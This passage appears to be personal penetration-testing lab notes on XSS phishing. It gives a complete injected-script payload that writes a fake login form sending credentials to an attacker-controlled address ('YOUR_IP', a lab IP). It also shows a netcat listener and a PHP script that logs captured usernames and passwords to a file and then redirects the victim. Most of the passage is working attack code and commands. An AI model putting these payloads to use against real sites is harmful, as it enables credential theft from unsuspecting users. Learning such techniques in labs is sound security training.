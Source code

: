 `Full XSS Payload`:
```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>'
```
![[Pasted image 20230128113738.png]]

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:
```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.16.18><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```
![[Pasted image 20230128114014.png]]

### Credential Stealing

#### Start a netcat listener on port 80
```Shell
nc -lnvp 80
```

Once someone enters their credentials into the login form, you'll receive them in plaintext over netcat:
![[Creds Grabbed 1.png]]

#### BETTER OPTION: PHP Server
`PHP script to write to location on VM (e.g., /tmp/tmpserver/index.php`:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.214.98/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

#### Start PHP Listener
```Shell
php -S 0.0.0.0:80
```
![[Creds Grabbed -php.png]]

![[txt creds.png]]
